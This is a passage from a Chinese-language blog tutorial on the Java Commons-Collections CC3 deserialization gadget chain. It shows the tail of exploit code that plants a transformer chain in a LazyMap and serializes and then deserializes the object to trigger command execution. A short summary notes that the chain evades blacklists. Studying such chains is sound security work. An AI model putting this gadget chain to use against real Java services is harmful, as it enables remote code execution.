 ```
 Field factoryField = lazyMapClass.getDeclaredField("factory");  
 factoryField.setAccessible(true);  
 factoryField.set(lazyMap, chainedTransformer);  
  
 serialize(expMap);  
 unserialize("ser.bin");  
 }  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/CC3EXP2.png)

## 0x08 小结

- CC3 链作为另外一种命令执行的方式，在原本黑名单的机会当中溜了出来，确实牛逼。

按照惯例整理一下流程图，不过这次的流程图打算和 CC1，CC6 放一起。

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/ALLCC.png)
